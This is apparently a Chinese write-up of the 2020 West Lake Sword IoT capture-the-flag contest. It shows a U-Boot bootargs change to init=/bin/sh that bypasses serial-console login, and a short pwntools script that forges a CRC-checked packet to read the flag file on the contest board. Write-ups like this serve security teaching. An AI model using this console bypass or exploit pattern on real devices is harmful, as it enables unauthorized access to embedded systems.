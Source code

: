 ```yaml
---
title: 西湖论剑 2020 IoT闯关赛 赛后整理
date: 2020-11-17 00:00:00
categories:
- IOT
tags: arm
---
```


> 本次IoT闯关赛为西湖论剑的其中一个赛项，由安恒的海特实验室主办，时长8小时，采用定制硬件为解题平台，玩法新颖，题目底座为linux5.4.75:libc2.30:armv5。但考察点偏CTF风格，与IoT安全实战尚有一定距离，最终赛况如下：

![image](https://xuanxuanblingbling.github.io/assets/pic/xihu/rank.png)

## 物料

闯关赛的题目需要烧写到一个板子上，也就是选手的胸卡：[【集赞福利】全球限量版“西湖论剑”IoT闯关赛神秘硬件！](https://mp.weixin.qq.com/s/igXkU0ZB6vlN_e0pdPvB6w)。这张胸卡的主控芯片为全志的F1C200s，留出了UART和OTA的接口，而且是直接使用micro USB接口，即UART转USB的功能已经做到板子上了，不需要TTL转接了。OTA接口在题目下的工作模式为USB网卡，可以直接给主机DHCP分配IP地址，板子的IP地址固定为`20.20.11.14`，故这俩USB直接接到主机上即可，UART用串口工具直接看，OTA是网卡。另外板子上还集成了ATmega328P，不过并明白他和主控是怎么一同使用的：

![image](https://xuanxuanblingbling.github.io/assets/pic/xihu/card.png)

另外还发了其他的一些东西：排线，杜邦线，转接板，USB-TTL转接器，USB-ISP下载器，DVB-T+FM+DAB电视棒，TF卡以及micro USB的连接线

![image](https://xuanxuanblingbling.github.io/assets/pic/xihu/stuff.png)

不过除了micro USB的连接线和电视棒，剩下的一概没用上

## 绕过串口认证

```
➜ ls /dev | grep serial
cu.usbserial-02133E1A
tty.usbserial-02133E1A
➜ screen -L /dev/cu.usbserial-02133E1A  115200  -L  
```

```bash
U-Boot 2020.07 (Nov 13 2020 - 15:01:11 +0800) Allwinner Technology

CPU:   Allwinner F Series (SUNIV)
Model: Allwinner F1C100s Generic Device
DRAM:  64 MiB
MMC:   mmc@1c0f000: 0, mmc@1c10000: 1
Setting up a 800x480 lcd console (overscan 0x0)
In:    serial
Out:   vga
Err:   vga
Allwinner mUSB OTG (Peripheral)
Hit any key to stop autoboot:  0
=>
```

```bash
=> printenv bootargs_common
bootargs_common=console=ttyS0,115200 earlyprintk rootwait init=/preinit consoleblank=0 net.ifnames=0 biosdevname=0 rootfstype=jffs2
```

```bash
=> setenv bootargs_common "console=ttyS0,115200 earlyprintk rootwait init=/bin/sh consoleblank=0 net.ifnames=0 biosdevname=0 rootfstype=jffs2"
=> boot
```

```bash
$ cat preinit
#!/bin/sh
mount proc /proc -t proc
set -- $(cat /proc/cmdline)
umount /proc
for x in "$@"; do
    case "$x" in
        overlayfsdev=*)
        OVERLAYFSDEV="${x#overlayfsdev=}"
        mtd erase /dev/mtd5
        mount -n -t jffs2 ${OVERLAYFSDEV} -o rw,noatime /overlay
        mkdir -p /overlay/rom/lower /overlay/rom/upper /overlay/rom/work
        mount -n -t overlay overlayfs:/overlay/rom -o rw,noatime,lowerdir=/,upperdir=/overlay/rom/upper,workdir=/overlay/rom/work /tmp
        mount --rbind /dev /tmp/dev/
        mount --rbind /overlay /tmp/overlay/
        mount --rbind / /tmp/overlay/rom/lower
        exec chroot /tmp /sbin/init
        ;;
    esac
done
exec /sbin/init
```

```bash
$ mount proc /proc -t proc
$ cat /proc/cmdline
console=ttyS0,115200 earlyprintk rootwait init=/bin/sh consoleblank=0 net.ifnames=0 biosdevname=0 rootfstype=jffs2 root=/dev/mtdblock3 overlayfsdev=/dev/mtdblock5
```

## 热身赛

> 总共4道题，为了让选手熟悉硬件操作流程

1. 手机改个蓝牙名字让板子搜索到
2. 串口回板子个数据
3. 把一个GPIO的电平拉低（没做出来，是接线出来接地么？）
4. 登录提示用户名或密码错，即用户名：或，密码：错，登录即可

## 闯关赛

> 吐槽一下，就没在IoT设备上见过这么高版本的libc，居然是2.30

有两个Web和三个Pwn的附件：[IoT_attachment.zip](https://xuanxuanblingbling.github.io/assets/attachment/IoT_attachment.zip)


### babyboa

### messageBox

协议逆向，没去符号，难度系数低于实际设备的逆向分析：

```python
➜  file messageBox
messageBox: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 5.4.0, not stripped
➜  checksec messageBox
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

逆向过程略，协议格式为：

```python
fixed string[6 byte] + length[2 byte] + func code[2 byte] + crc[4 byte] + func data
```

一开始卡在crc校验总是算不对，本地调试发现长度的两个字节如果有00直接就被截断了，导致后面的正文数据压根没进行校验，所以需要将长度填满到两个字节。预期解应该是各种绕过使用后面的命令执行读取flag，但可以使用readFile功能直接直接读flag。即本题没有用到内存破坏漏洞的利用方式，而是直接使用程序的功能完成利用，exp如下：

```python
from pwn import *
import zlib
context(log_level='debug',endian='big')
io = remote("20.20.11.14",6780)
payload = "readFile:"+"/"*0x100+"/workspace/flag"
crc = int(zlib.crc32(payload)& 0xffffffff)
io.send("H4bL1b"+p16(len(payload))+"\x01\x02"+p32(crc)+payload)
io.interactive()
```

### ezArmpwn